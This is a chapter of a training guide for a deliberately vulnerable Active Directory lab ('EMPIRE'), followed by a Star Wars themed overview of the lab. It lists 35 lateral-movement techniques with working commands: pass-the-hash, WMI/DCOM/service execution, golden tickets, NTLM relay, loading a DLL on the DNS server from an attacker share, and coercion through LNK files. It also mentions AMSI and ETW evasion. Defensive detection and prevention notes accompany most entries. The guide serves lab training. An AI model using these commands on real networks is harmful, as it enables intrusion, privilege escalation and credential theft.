

# 04 — Lateral Movement (LAT-001..035)

Once you have credentials/hashes/tickets, lateral movement is "how do I run code on the next host." EMPIRE enables every classic primitive: SMB signing off, WinRM open, DCOM enabled, IPv6 stack on, ADIDNS writable, GPP files lying around.

Use these from your **Kali / BlackArch** attacker box on the host bridge, or — once you've landed a beacon via [`02a-initial-access.md`](02a-initial-access.md) — from your foothold on `tatooine` / scarif / etc. via a SOCKS pivot.

---

### BloodHound ACL Attack Vectors



---

### LAT-001 — PsExec with Pass-the-Hash
**What it is:** classic — create a service over SMB/`ADMIN$`, execute, return output. PtH means you don't need a password, just a hash.
**Why it works here:** SMB signing off; admin hashes recoverable.
**Tools:** `impacket-psexec`, `nxc smb -x`, `psexec64.exe`.
**Steps:**
```bash
impacket-psexec empire.local/Administrator@10.10.0.13 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
nxc smb 10.10.0.13 -u Administrator -H :31d6...0 -x 'whoami /all'
```
**Detection:** Event `7045` (service installed), `4697`, named-pipe `\PSEXESVC`. Sigma "PsExec service installation."
**Prevention:** SMB signing required; block 445/139 east-west; AppLocker; LAPS.

---

### LAT-002 — WMI Exec
**What it is:** create a process remotely via WMI/DCOM (`Win32_Process.Create`). Quieter than PsExec — no service installed.
**Tools:** `impacket-wmiexec`, `Invoke-WmiMethod`, `nxc wmi`.
**Steps:**
```bash
impacket-wmiexec empire.local/Administrator:'EmpireLab2024!'@10.10.0.13
nxc wmi 10.10.0.13 -u Administrator -p 'EmpireLab2024!' -x 'whoami'
```
**Detection:** Sysmon `1` with parent `WmiPrvSE.exe` + `cmd.exe` child; Event `5861` WMI permanent subscriptions.
**Prevention:** restrict WMI namespace; firewall RPC dynamic ports east-west.

---

### LAT-003 — Scheduled Task Remote
**What it is:** create + run a scheduled task on a remote host via `schtasks /s`.
**Tools:** `schtasks`, `impacket-atexec`, `nxc smb --exec-method atexec`.
**Steps:**
```cmd
schtasks /create /s 10.10.0.13 /tn beacon /tr "C:\Temp\b.exe" /sc once /st 00:00 /ru SYSTEM
schtasks /run /s 10.10.0.13 /tn beacon
```
```bash
impacket-atexec empire.local/Administrator:'EmpireLab2024!'@10.10.0.13 'whoami'
```
**Detection:** Event `4698` (task created); `106`/`200` Task Scheduler operational.
**Prevention:** restrict who can connect over Task Scheduler RPC; firewall east-west.

---

### LAT-004 — Service Creation
**What it is:** `sc.exe create` on a remote host. Variant of PsExec without their binary.
**Tools:** `sc.exe`, `impacket-services`.
**Steps:**
```cmd
sc \\10.10.0.13 create EvilSvc binPath= "cmd /c whoami > C:\Temp\o.txt" type= own
sc \\10.10.0.13 start EvilSvc
```
**Detection:** Event `7045` service install on the target.
**Prevention:** restrict SCM remote calls; service install monitoring.

---

### LAT-005 — DCOM Execution
**What it is:** `MMC20.Application`, `ShellWindows`, `ShellBrowserWindow` expose `Document.ActiveView.ExecuteShellCommand`. Authenticated DCOM → arbitrary command.
**Tools:** `impacket-dcomexec`, `Invoke-DCOM.ps1`, `nxc smb -x ... --exec-method mmcexec`.
**Steps:**
```bash
impacket-dcomexec empire.local/Administrator:'EmpireLab2024!'@10.10.0.13
```
**Detection:** `mmc.exe` spawning `cmd.exe` or `powershell.exe`.
**Prevention:** restrict DCOM (`HKLM\Software\Microsoft\Ole\EnableDCOM=N`); tighter app-launch ACLs (`dcomcnfg`).

---

### LAT-006 — WinRM (Enter-PSSession / evil-winrm)
**What it is:** PowerShell remoting over HTTPS-like protocol. Often legitimate; less noisy than SMB.
**Tools:** `evil-winrm`, `pwsh Enter-PSSession`.
**Steps:**
```bash
evil-winrm -i 10.10.0.13 -u Administrator -p 'EmpireLab2024!'
```
```powershell
Enter-PSSession -ComputerName scarif -Credential (Get-Credential)
```
**Detection:** Event `91`/`142` (WSMan operational), `4624` Logon Type 3 with Process `wsmprovhost.exe`.
**Prevention:** restrict TrustedHosts; JEA endpoints; require HTTPS + cert auth.

---

### LAT-007 — RDP with Restricted Admin (PtH RDP)
**What it is:** Restricted Admin RDP doesn't send creds to the target — uses NTLM. PtH-able.
**Tools:** `xfreerdp /pth:HASH`, `mstsc /restrictedadmin`.
**Steps:**
```bash
xfreerdp /v:10.10.0.100 /u:Administrator /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /restricted-admin
```
**Detection:** Event `4624` Logon Type 10 with `RemoteInteractive` and NTLM package on tier-0 → red flag.
**Prevention:** disable RestrictedAdmin (`DisableRestrictedAdmin=1`); Remote Credential Guard.

---

### LAT-008 — Remote Registry
**What it is:** write `HKLM\System\CurrentControlSet\Services\...` remotely to plant services / persistence.
**Tools:** `reg.exe \\host`, `nxc smb --rid-brute`, `impacket-reg`.
**Steps:**
```cmd
reg add \\10.10.0.13\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v evil /t REG_SZ /d "C:\Temp\b.exe"
```
**Detection:** Event `4657` registry value modification.
**Prevention:** disable Remote Registry service where unused.

---

### LAT-009 — SMB Named Pipe Exec
**What it is:** `\\host\pipe\atsvc`, `\\host\pipe\svcctl` accept RPC; chained with auth = remote exec.
**Tools:** `impacket-smbexec`.
**Steps:**
```bash
impacket-smbexec empire.local/Administrator:'EmpireLab2024!'@10.10.0.13
```
**Detection:** named pipe access events; service installs.
**Prevention:** SMB signing; restrict named-pipe ACLs.

---

### LAT-010 — SSH Tunneling
**What it is:** `scarif` has OpenSSH installed (intentional). SSH key reuse from a Linux user gets you onto Linux boxes / VPN pivots.
**Tools:** `ssh`, `sshuttle`, `chisel`.
**Steps:**
```bash
ssh -L 5985:coruscant.empire.local:5985 user@scarif.empire.local
```
**Detection:** OpenSSH logs `sshd[xxx]: Accepted ...`; auth.log on Linux box.
**Prevention:** key-only auth; restrict who has OpenSSH; segment Linux-in-AD.

---

### LAT-011 — Certificate-Based Auth Relay (ESC1 chain)
**What it is:** ESC1 cert → PKINIT → TGT for target user → PtT.
**Tools:** `Certipy req`, `Certipy auth`.
**Steps:** see DF-012.
**Detection:** Event `4624` Logon Type 3 with PKINIT package; ADCS Event `4886`.
**Prevention:** ESC1 hardening — no SAN spec; manager approval.

---

### LAT-012 — Cross-Forest SID History Abuse
**What it is:** SID filtering disabled on external trust → forge a TGT with `ExtraSids` containing the foreign DA SID → cross-forest DA.
**Tools:** `mimikatz kerberos::golden /sids:`, `Rubeus`.
**Steps:**
```powershell
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:rebel.local /sid:S-1-5-21-FIN /sids:S-1-5-21-EMPIRE-519 /krbtgt:HASH /ptt"
```
**Detection:** Event `4769` TGS with anomalous SIDs in PAC; MDI "SID-History suspicious activity."
**Prevention:** **enable SID filtering** on every external trust; quarantine attribute; selective auth.

---

### LAT-013 — Shortcut Trust Abuse
**What it is:** shortcut trust between two non-root domains permits skipping the root in Kerberos referrals. Sometimes bypasses transitive-trust filtering.
**Tools:** `Rubeus asktgs /service:.../...`.
**Steps:** Rubeus `asktgs /service:cifs/target.contractor.corp /ptt`.
**Detection:** trust-ticket Event `4769` traffic across unexpected paths.
**Prevention:** remove shortcut trusts not in use; selective auth.

---

### LAT-014 — Realm Trust (MIT Kerberos) Relay
**What it is:** AD ↔ MIT KDC realm trust; RC4 negotiation may allow downgrade and TGT swap.
**Tools:** custom Rubeus + krb5 mit client.
**Detection / Prevention:** disable RC4 on realm trusts; AES only.

---

### LAT-015 — IPv6 DHCPv6 MitM + WPAD Relay (mitm6)
**What it is:** Windows prefers IPv6. Reply to DHCPv6 with your address as DNS → answer DNS for `wpad.empire.local` → serve `wpad.dat` → browsers route through you → NTLM auth → relay to LDAPS.
**Why it works here:** IPv6 enabled, no RA Guard.
**Tools:** `mitm6`, `ntlmrelayx`.
**Steps:**
```bash
sudo mitm6 -i virbr1 -d empire.local
ntlmrelayx.py -t ldaps://coruscant.empire.local -wh attacker.empire.local --delegate-access -smb2support
```
**Detection:** unsolicited DHCPv6 advertisements; Sysmon Event `22` DNS for `wpad`; LDAP writes from non-DC.
**Prevention:** disable IPv6 if unused or deploy RA Guard / DHCPv6 Guard; disable WPAD (`Wpad`/`WinHttpProxyType`); GPO disable WPAD auto-detection.

---

### LAT-016 — Resource-Based Constrained Delegation Chain
**What it is:** chain RBCD across multiple hops (compromise A → write RBCD on B → use B to impersonate to C → write RBCD on D ...). BloodHound shows the path.
**Steps / Tools / Detection / Prevention:** see CRED-017.

---

### LAT-017 — ACL Abuse: ForceChangePassword
**What it is:** You have `User-Force-Change-Password` over an object.
**Tools:** PowerView, bloodyAD.
**Steps:**
```powershell
Set-DomainUserPassword -Identity nick.fury -AccountPassword (ConvertTo-SecureString "NewSithLord1!!" -AsPlainText -Force)
```
*(In BloodHound data, `developer1` has `ForceChangePassword` on `nick.fury`)*
**Detection:** 4724 (Attempt to reset account password by non-owner).
**Prevention:** tier nick.fury; least privilege; just-in-time admin via PIM.

---

### LAT-018 — ACL Abuse: Add Members on Group
**What it is:** `GenericWrite` on a group → add yourself.
**Why it works here:** `SHIELD Agents` has GenericWrite on `Avengers Admins` (and `qa_user` has `AddSelf`).
**Tools:** `net group`, `Add-DomainGroupMember`.
**Steps:**
```powershell
Add-DomainGroupMember -Identity 'Avengers Admins' -Members qa_user
```
**Detection:** Event `4728`/`4732`/`4756` (member added to security group).
**Prevention:** group-policy-aware delegation; audit privileged group memberships.

---

### LAT-019 — ACL Abuse: Shadow Credentials
**What it is:** same as CRED-008 in PE context — `GenericWrite` → write KeyCredentialLink → PKINIT.

---

### LAT-020 — ACL Abuse: WriteOwner
**What it is:** ownership = the right to give yourself any right. WriteOwner on a target → take ownership → grant GenericAll → escalate.
**Why it works here:** nick.fury has WriteOwner on Domain Admins (deliberate, do not "fix").
**Tools:** PowerView `Set-DomainObjectOwner`.
**Steps:**
```powershell
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity nick.fury
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity nick.fury -Rights All
Add-DomainGroupMember -Identity 'Domain Admins' -Members nick.fury
```
**Detection:** Event `5136` modifying `nTSecurityDescriptor` on privileged group.
**Prevention:** audit owner of privileged objects; lock down with AdminSDHolder.

---

### LAT-021 — ACL Abuse: WriteDACL on Domain → DCSync
**What it is:** `GenericAll`/`WriteDACL` on the domain object lets you add `Replicating Directory Changes` to your account → DCSync.
**Tools:** PowerView `Add-DomainObjectAcl -Rights DCSync`.
**Steps:**
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=empire,DC=local" -PrincipalIdentity peter.parker -Rights DCSync
```
**Detection:** Event `5136` on domain root; MDI "Modification to privileged AD object."
**Prevention:** audit ACEs on `DC=empire,DC=local`; only DCs should have DCSync.

---

### LAT-022 — ACL Abuse: WriteSPN → Kerberoast
**What it is:** with `Validated-SPN` write on another user, add an SPN to them → Kerberoast → crack.
**Why it works here:** nick.fury has `WriteSPN` on `svc_vision`.
**Tools:** PowerView `Set-DomainObject -Set @{servicePrincipalName='http/x'}`.
**Steps:**
```powershell
Set-DomainObject -Identity svc_vision -Set @{serviceprincipalname='nonexistent/x'}
.\Rubeus.exe kerberoast /user:svc_vision /outfile:roast.hashes
```
**Detection:** Event `4738` (account changed) with SPN modification by non-admin.
**Prevention:** restrict Validated-SPN write; monitor SPN additions.

---

### LAT-023 — Cross-Forest TGT Delegation Abuse
**What it is:** trust configured with `Trust Transitivity = Yes` and `TGTDelegation = Yes` (or KDC-level flag) lets foreign TGTs be forwardable across — allowing relay-like attacks.
**Why it works here:** disabled SID filtering + relaxed trust attributes.
**Tools:** `Rubeus`, `nltest /trust_info`.
**Detection:** `4769` for cross-realm TGSs with delegated TGT flag.
**Prevention:** set `EnableTGTDelegation=NO` on every forest trust.

---

### LAT-024 — LDAP Signing Not Required → Relay
**What it is:** see CRED-048. Relay NTLM to LDAP → write any object.

---

### LAT-025 — WebDAV Redirector Coercion
**What it is:** `srvsvc` named pipe path triggers WebDAV client to authenticate to attacker UNC.
**Tools:** `Coercer`, `srvsvc.py`.
**Steps:**
```bash
python3 Coercer.py coerce -u peter.parker -p 'EmpireLab2024!' -d empire.local -l 10.10.0.100 -t scarif.empire.local
```
**Detection:** Sysmon `3` outbound from `svchost.exe` (WebClient).
**Prevention:** disable WebClient; force SMB signing.

---

### LAT-026 — KrbRelayUp (Local LPE via Kerberos)
**What it is:** authenticated user on a Windows host can relay machine-account Kerberos to local LSASS pipe and write RBCD on the local machine account → local SYSTEM.
**Why it works here:** default LDAP/LSASS pipe; no machine-account RBCD write restriction.
**Tools:** `KrbRelayUp.exe`.
**Steps:**
```cmd
KrbRelayUp.exe full --Method SCM
```
**Detection:** local `5136` writing `msDS-AllowedToActOnBehalfOfOtherIdentity` on local machine.
**Prevention:** `LdapEnforceChannelBinding=2`; SMB signing; Defender rule "Block credential stealing."

---

### LAT-027 — mitm6 (DHCPv6 → WPAD → NTLM Relay)
**What it is:** see LAT-015 (PLAN.md tracks LAT-027 separately for IPv4-only variant flag).

---

### LAT-028 — LLMNR + SMB Relay
**What it is:** Responder grabs LLMNR/NBT-NS hashes, but instead of cracking, ntlmrelayx relays them to a host without SMB signing → exec.
**Tools:** `Responder` (SMB/HTTP off) + `ntlmrelayx`.
**Steps:**
```bash
sudo responder -I virbr1 -dwv          # SMB/HTTP disabled in Responder.conf
ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell -enc ...'
```
**Detection:** Defender for Identity "LLMNR/NBT-NS spoofing" + "Suspected NTLM relay attack."
**Prevention:** disable LLMNR/NBT-NS, force SMB signing.

---

### LAT-029 — SCShell (binPath modification)
**What it is:** modify an *existing* service's `binPath` remotely (no install) → restart → exec → restore. Quieter than PsExec.
**Tools:** `SCShell.py`, `sc config`.
**Steps:**
```bash
python3 SCShell.py 10.10.0.13 XblAuthManager "C:\Windows\System32\cmd.exe /c whoami" empire.local Administrator 'EmpireLab2024!'
```
**Detection:** Event `7040` service config changed.
**Prevention:** restrict SCM RPC; monitor `7040`/`7045`.

---

### LAT-030 — RDP Session Hijack
**What it is:** SYSTEM on an RDP host can `tscon` to any disconnected session without their password.
**Tools:** `tscon.exe`, `query session`.
**Steps:**
```cmd
query session
tscon 3 /dest:console
```
**Detection:** Event `4778`/`4779` session reconnect with mismatched user.
**Prevention:** force logoff on disconnect; restrict RDP admin tooling; Remote Credential Guard.

---

### LAT-031 — DnsAdmins → DLL Load on DC
**What it is:** members of `DnsAdmins` can call `dnscmd /config /ServerLevelPluginDll \\attacker\share\evil.dll`. On DNS service restart → DLL loads as SYSTEM (DNS runs on DC).
**Why it works here:** `nick.fury` is in DnsAdmins.
**Tools:** `dnscmd`, msfvenom for DLL.
**Steps:**
```cmd
dnscmd coruscant /config /ServerLevelPluginDll \\10.10.0.100\share\evil.dll
sc \\coruscant stop dns
sc \\coruscant start dns
```
**Detection:** Event `541`/`770` DNS plug-in DLL loaded; Sysmon `7` DLL load from non-MS path in `dns.exe`.
**Prevention:** empty DnsAdmins; KB4014193 (disallows UNC paths in ServerLevelPluginDll).

---

### LAT-032 — ADIDNS Record Write
**What it is:** see CRED-026; lateral aspect = create a record claiming a hostname (`wpad`, `fileserver`) → intercept auth.
**Detection / Prevention:** see CRED-026.

---

### LAT-033 — LNK / SCF / URL on writable share
**What it is:** drop `evil.lnk` (or `.scf`/`.url`) with `IconLocation=\\attacker\share\icon.ico` on a heavily-browsed share. Anyone who opens the share folder triggers an NTLM auth to the attacker.
**Tools:** `ntlm_theft`, `scf-template`.
**Steps:** generate, drop into `\\scarif\Public`.
**Detection:** Sysmon `11` (FileCreate) of `.lnk`/`.scf`/`.url`; Event `5145` on suspicious file types.
**Prevention:** block UNC paths to external hosts (firewall); SMB signing.

---

### LAT-034 — Foreign Group Membership (Cross-Forest)
**What it is:** Foreign Security Principal from `rebel.local` placed in `empire.local`'s privileged group → cross-forest DA.
**Why it works here:** intentionally pre-populated.
**Tools:** `Get-ADGroupMember`, BloodHound CrossForestACL.
**Steps:**
```powershell
Get-ADGroupMember "Domain Admins" | ? { $_.SID -match 'S-1-5-21-FIN' }
```
**Detection:** Event `4732`/`4756` adding FSP to privileged group.
**Prevention:** never put FSPs in tier-0 groups; selective auth.

---

### LAT-035 — Cross-Forest Golden + SID History (RID > 1000)
**What it is:** forge a TGT and stuff foreign SIDs with RID > 1000 into PAC — some misconfigured SID-filtering setups only filter RIDs ≤ 1000.
**Tools:** mimikatz `kerberos::golden /sids:`, ticketer.py.
**Detection:** anomalous PAC SID list.
**Prevention:** "quarantine" attribute; Kerberos PAC validation; SID filtering with all RID ranges.

---

Next: [`05-privilege-escalation.md`](05-privilege-escalation.md).

---

# The EMPIRE AD Lab: Star Wars Lore & Thematic Mapping

Welcome to the **EMPIRE AD Lab**, where the intricacies of Active Directory align with the galactic struggle between the Galactic Empire, the Rebel Alliance, and the shadow syndicates. This section provides a conceptual thematic mapping between the AD concepts you are attacking and the Star Wars universe.

## The Galactic Topology

The lab topology represents the political structure of the galaxy. Just as trust relationships govern AD, diplomatic and military alliances govern the galaxy.

```mermaid
graph TD
    classDef empire fill:#000000,stroke:#ff0000,stroke-width:2px,color:#fff;
    classDef rebel fill:#2b5c8f,stroke:#ff9900,stroke-width:2px,color:#fff;
    classDef trade fill:#4a4a4a,stroke:#aaaaaa,stroke-width:2px,color:#fff;
    classDef highlight fill:#440000,stroke:#ff0000,stroke-width:3px,color:#fff;

    subgraph The Galactic Empire (empire.local)
        Coruscant["Coruscant (Root DC)<br/>coruscant.empire.local"]:::empire
        DeathStar["The Death Star (Child DC)<br/>deathstar.eu.empire.local"]:::highlight
        Scarif["Scarif Citadel (File Server)<br/>scarif.empire.local"]:::empire
        Kamino["Kamino Cloning Facility (SQL)<br/>kamino.empire.local"]:::empire
        Endor["Endor Shield Generator (CA)<br/>endor.empire.local"]:::empire
        Mandalore["Mandalore Mercenary Base (Linux)<br/>mandalore.empire.local"]:::empire
        Coruscant -- "Imperial Command" --> DeathStar
        Coruscant --- Scarif
        Coruscant --- Kamino
        Coruscant --- Endor
        Coruscant --- Mandalore
    end

    subgraph The Rebel Alliance (rebel.local)
        Yavin4["Yavin 4 Base<br/>yavin4.rebel.local"]:::rebel
    end

    subgraph The Trade Federation (trade.corp)
        Neimoidia["Cato Neimoidia<br/>neimoidia.trade.corp"]:::trade
    end

    Coruscant <-->|Espionage / External Trust| Yavin4
    Coruscant <-->|Treaty / Forest Trust| Neimoidia
```

## Infrastructure Mapping

Understanding the infrastructure is key to successfully executing your attack paths. Here is how the technical components of the EMPIRE AD lab map to the Star Wars universe:

### 1. The Core Domains
* **`empire.local` (The Galactic Empire):** The central root domain. This is the seat of the Emperor and the Imperial Senate. Taking over this domain is equivalent to taking over Coruscant. It controls all the core infrastructure.
* **`eu.empire.local` (The Death Star):** A child domain of `empire.local`. While it reports to the root domain, it holds immense power. Escaping the child domain to compromise the root domain is the equivalent of using the Death Star plans to destroy the Empire.
* **`rebel.local` (The Rebel Alliance):** An external forest. It has an external trust with the Empire (perhaps through espionage or captured spies). Moving laterally across this trust requires finding a weak link in the Rebel defenses.
* **`trade.corp` (The Trade Federation):** A separate forest with a bidirectional forest trust. The Empire uses them for resources, but you can forge trust tickets (Inter-Realm TGTs) to cross this boundary.

### 2. High-Value Targets (Servers)
* **`coruscant.empire.local` (Coruscant Root DC):** The ultimate prize. Achieving Domain Admin here gives you the keys to the galaxy.
* **`endor.empire.local` (Endor Shield Generator / ADCS):** Active Directory Certificate Services. If you can compromise the CA (via ESC1, ESC8, etc.), you can forge certificates for any user in the Empire, effectively bringing down the deflector shields.
* **`scarif.empire.local` (Scarif Citadel):** This file server hosts critical SMB shares. It is the repository of the Death Star plans. Look for exposed passwords in scripts or configuration files left by careless Imperial engineers.
* **`kamino.empire.local` (Kamino Facility):** The SQL Server. SQL injection or xp_cmdshell here can lead to a foothold. It represents the cloning facilities—a hidden source of power.
* **`mandalore.empire.local` (Mandalore Base):** The Linux-in-AD member. Contains local privilege escalations and cross-OS pivot opportunities. Represents the mercenary faction employed by the Empire.

### 3. Attack Paths and Tactics
* **Initial Access (The Smuggler's Route):** Finding an exposed SMB share or exploiting an LLMNR poisoning vulnerability (Responder) is like slipping past the Imperial blockade.
* **Kerberoasting (Bounty Hunting):** Requesting TGS tickets for service accounts and cracking them offline is like putting a bounty on a high-value target and cracking their encryption.
* **DCSync (The Force):** Using `secretsdump` to pull the `krbtgt` hash directly from the Domain Controller. It's an invisible, powerful attack that bypasses normal defenses.
* **Golden Ticket (Order 66):** Once you have the `krbtgt` hash, you can forge a TGT for any user, granting you infinite access. It is the ultimate executive order, overriding all security protocols.
* **Trust Abuse (Diplomatic Immunity):** Forging a trust ticket to cross from the Child Domain to the Root Domain.

## The Hacker's Code (Sith vs Jedi)
As you navigate the lab, remember that the tools you use define your path. Will you use noisy, aggressive tools (The Dark Side) that trigger every alarm, or will you use stealthy, precise tradecraft (The Light Side) to move undetected?

* **The Dark Side (Noisy):** Running `BloodHound` with all collection methods, spraying passwords across the entire domain, and dropping standard Mimikatz binaries to disk. It is powerful and fast, but leaves a massive trail.
* **The Light Side (Stealthy):** Targeted LDAP queries, memory-only execution via Covenant or Cobalt Strike, and careful evasion of logging (AMSI bypasses, ETW patching).

## Flag Locations (Holocrons)
Hidden throughout the EMPIRE AD lab are flags (Holocrons) that prove your mastery over the environment. Look for `FLAG-*.txt` files on desktops, hidden SMB shares, and within the SQL databases. 

**Remember:** 
* "Your focus determines your reality." - Qui-Gon Jinn. Focus on the attack paths mapped out in `PLAN.md`.
* "I find your lack of faith disturbing." - Darth Vader. If an exploit fails, check your syntax, your targeting, and the underlying misconfiguration. The lab is intentionally vulnerable.

May the Force be with you as you conquer the EMPIRE AD!
